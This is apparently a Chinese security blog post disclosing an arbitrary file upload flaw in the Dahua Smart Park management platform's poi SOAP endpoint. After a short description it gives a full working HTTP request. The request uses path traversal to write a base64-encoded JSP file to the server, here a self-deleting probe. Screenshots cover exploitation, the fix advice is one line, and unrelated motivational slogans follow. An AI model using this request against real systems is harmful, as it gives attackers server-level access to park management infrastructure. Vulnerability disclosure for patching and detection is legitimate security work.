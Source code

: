 #  大华智慧园区综合管理平台poi任意文件上传漏洞   
原创 SXdysq  南街老友   2024-04-01 23:35  
  
**漏洞描述**  
  
大华智慧园区综合管理平台是一款综合管理平台，具备园区运营、资源调配和智能服务等功能。该平台旨在协助优化园区资源分配，满足多元化的管理需求，同时通过提供智能服务，增强使用体验。该平台emap/webservice/gis/soap/poi接口存在文件上传漏洞，攻击者利用该漏洞可以获取服务器权限。  
  
**漏洞请求包**  
```
POST /emap/webservice/gis/soap/poi HTTP/1.1
Host: 127.0.0.1
Content-Type: text/xml;charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:res="http://response.webservice.poi.mapbiz.emap.dahuatech.com/">
<soapenv:Header/>
<soapenv:Body>
<res:uploadPicFile>
<!--type: string-->
<arg0>/../../test.jsp</arg0>
<!--type: base64Binary-->
<arg1>PCUgb3V0LnByaW50bG4oIlFheDM2b25iIik7bmV3IGphdmEuaW8uRmlsZShhcHBsaWNhdGlvbi5nZXRSZWFsUGF0aChyZXF1ZXN0LmdldFNlcnZsZXRQYXRoKCkpKS5kZWxldGUoKTsgJT4=</arg1>
</res:uploadPicFile>
</soapenv:Body>
</soapenv:Envelope>
```  
  
**漏洞检测与利用**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dfviaLov8RtBA3OFRchq3n6RsSdnudl8ibQjpQBJBrwOXz8YnicxJ6SiaKPKIN0gbTIWX72N4LLCh1mUGIIk5QDlIw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dfviaLov8RtBA3OFRchq3n6RsSdnudl8ibqjYKeyaCnQhmwvt0xQHU1XsObmKj6nCXawBnnwnqC15AaLYv2DHXbQ/640?wx_fmt=png&from=appmsg "")  
### 修复建议  
  
  
厂商已更新（https://www.dahuatech.com）。  
  
  
**鸡汤**  
  
成功的秘诀在于坚持不懈；  
  
勇敢的人在每一次跌倒后都会站起来，再次出发；  
  
失败只是通往成功的必经之路；  
  
别人能做到的，你也能做到，只要你有勇气和决心；  
  
每一步的努力都是向梦想更近一步；  
  
相信自己，你比自己想象的更强大；  
  
只要心怀希望，没有什么是不可能的；  
  
  
相信自己，你比自己想象的更勇敢，更坚强；  
  
无论遇到什么困难，都要相信自己，坚持下去，你一定能突破困境，看到更美好的明天；  
  
  
当你感到迷茫时，记得你曾经为何出发；  
  
生命中最困难的挑战，往往也是最美好的经历；  
  
不要等待机会，而是创造机会；  
  
成功的秘诀在于坚持不懈；  
  
  
当生活给你一百个理由哭泣，你就要用一千个理由去笑；  
  
不经历风雨，怎能见彩虹；  
  
成功并不是重要的事情，重要的是努力和坚持；  
  
生活不会因为你眼泪而停滞，它还在继续，所以请振作起来；  
  
世界总是让你感到孤独时，别忘了还有自己；  
  
只有脚踏实地，才能走得更远；  
  
每一次跌倒都是为了让你学会如何更加坚强地站起来；  
  
别让别人的眼光左右你的人生，你的选择决定了你的人生。  
  
  
  
  
  

